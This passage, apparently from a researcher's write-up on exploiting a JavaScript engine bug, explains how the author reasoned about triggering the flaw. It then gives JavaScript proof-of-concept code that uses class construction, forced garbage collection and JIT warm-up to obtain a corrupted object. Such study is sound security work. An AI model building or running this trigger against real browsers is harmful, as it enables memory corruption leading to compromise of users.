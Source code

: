 This is similar to the POC where they have specific conditions met to trigger the `ExtendOrReallocateCurrentRawAllocation` through the `ClassBug`. Additionally, the only confusing part is, how to know the number of times to call the `reflect.construct` and when do we know it triggered the actual bug. I was also confused reading the blogpost from exodus, when I asked the exploit dev, he suggested running it multiple times and getting the limit through trial and error.
```js
function gc(){
    for(let i=0;i<0x10;i++) new ArrayBuffer(0x100000);
}

let dogc_flag = null;
function dogc(){
    if(dogc_flag){
        gc();
    }
}

let empty_object = {};
let empty_array = [];
let corrupted_instance = null;

// Main vulnerability.
class ClassParent {}
class ClassBug extends ClassParent {
    constructor(a20, a21, a22) {
        const v24 = new new.target();
        let x = [empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object];
        super();    
        let a = [1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1];
        this.x = x;
        this.a = a;
        JSON.stringify(empty_array);
    }
    [1] = dogc();
}

// jit compile the dogc()
for (let i = 0; i<200; i++) {
    dogc_flag = false;
    if (i%2 == 0) dogc_flag = true;
    dogc();
}

for (let i = 0; i < 650; i++) {
    dogc_flag=false;
    if (i == 644 || i == 645 || i == 646 || i == 640) {
        dogc_flag=true;
        dogc();
        dogc_flag=false;
    }
    if (i == 646) dogc_flag=true;

    let x = Reflect.construct(ClassBug, empty_array, ClassParent);
    if (i == 646) {
        corrupted_instance = x;
    }
}
```
